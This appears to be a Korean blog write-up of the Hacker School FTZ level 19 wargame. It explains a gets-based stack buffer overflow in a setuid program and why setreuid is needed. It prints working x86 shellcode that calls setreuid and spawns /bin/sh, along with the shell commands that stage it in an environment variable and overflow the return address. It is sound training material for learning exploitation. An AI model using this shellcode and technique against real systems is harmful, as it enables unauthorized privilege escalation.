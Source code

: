 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 19"
description: "Do you know the ?"
comments: true
categories: [FTZ]
tags: [FTZ]
---
```


<img data-action="zoom" src='{{ "assets/ftz/level19/1.jpg" | relative_url }}' alt='relative'>  

## 1) level19/swimming in pink 입력해 로그인  

``` c 
main()
{ char buf[20];
  gets(buf);
  printf("%s\n",buf);
}
```

<img data-action="zoom" src='{{ "assets/ftz/level19/2.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level19/3.png" | relative_url }}' alt='relative'>  

코드를 통해 gets 함수를 사용해 입력 길이에 제한을 두지 않았다는 것을 확인하였고,  
gdb로 분석해보니 buf 배열은 ebp에서 40 byte 떨어진 주소에 위치하고 bof를 방지하는 보안 대책이 없다는 것을 확인했습니다.  

RET에 쉘코드가 저장된 위치의 주소를 입력해 bof를 일으키면 쉘은 실행됩니다.  
문제는 level19 권한의 쉘이 실행된다는 것입니다.  

<img data-action="zoom" src='{{ "assets/ftz/level19/4.png" | relative_url }}' alt='relative'>  

앞서 문제에서는 프로그램 코드 내에 setreuid 함수가 호출됐었습니다.  
그러나 이번 문제에서는 setreuid 함수가 호출되지 않았습니다.  
따라서 이번 문제를 풀기 위해선 쉘코드에 setreuid 함수를 호출하는 기계어 코드를 넣어줘야 합니다.    

## 2) 쉘코드에 setreuid 함수 호출하는 기계어 추가하기  

모든 프로세스별로  
Real User ID(RUID),  
Effective User ID(EUID),  
Saved User ID(SUID)가 있습니다.  

-> RUID는 시스템에 접속한 사용자의 ID입니다. 프로세스를 시작하는 사용자를 결정하는 데 사용됩니다.    

-> EUID는 프로세스에 대한 권한을 결정합니다. 프로그램에 SetUID가 설정되어 있다면 프로세스의 권한은 일시적으로 user의 ID를 갖습니다.  

-> SUID는 이전 EUID 값을 저장하는 데 사용됩니다. SUID로 이전 EUID를 복원할 수 있습니다.  


SetUID가 설정된 attackme 파일을 실행하기 전에는 RUID=level19, EUID=level19 입니다.  

<img data-action="zoom" src='{{ "assets/ftz/level19/5.png" | relative_url }}' alt='relative'>  

attackme 프로그램이 실행하면 EUID(level19)를 SUID에 복사한 뒤,  
EUID는 level20 user의 ID를 일시적으로 갖습니다.  

attackme 프로세스가 종료하면 SUID에 저장되어 있던 값을 EUID에 복사하여 기존 권한으로 전환합니다.  


프로그램 내에서 setreuid를 호출하지 않기 때문에  
main 함수가 종료되면서 EUID는 level19 권한으로 전환되고,  
쉘코드가 저장되어 있는 위치에 가서 쉘코드를 실행시키더라도  
쉘코드에서는 execve 함수만 호출하기 때문에 RUID, EUID(level19) 권한으로 쉘이 실행됩니다.  

따라서 쉘코드에 setreuid 함수를 호출하는 기계어를 추가해야 합니다.  

<a href="https://hsong2.github.io/ftz/2021/05/24/Hacker-School-FTZ-Shellcode.html#setreuid">setreuid 함수 호출이 포함된 쉘코드 작성 방법</a>  


위 문서를 참고하여 setreuid 함수 호출 코드가 포함된 39 byte의 쉘코드를 만들 수 있었습니다.    

``` bash
\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```

## 3) attackme에 bof 일으켜 level20 권한의 shell 획득하기  

1) EGG 환경변수에 쉘코드 저장  

``` bash
export EGG=`python -c 'print "\x90"*30+"\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*30'`
```

2) EGG 환경변수 주소 확인하기 (1)  

``` bash
echo 'int main() { printf("ADDR -> %p\n", getenv("EGG")); }' > getenv.c
```

3) EGG 환경변수 주소 확인하기 (2)  

``` bash
gcc -o getenv getenv.c
```

4) EGG 환경변수 주소 확인하기 (3)  

``` bash
./getenv
```

5) attackme bof 공격하기

``` bash
(python -c 'print "\x90"*44+"[쉘코드가 저장된 주소]"'; cat) | ./attackme
```


<img data-action="zoom" src='{{ "assets/ftz/level19/6.png" | relative_url }}' alt='relative'>  

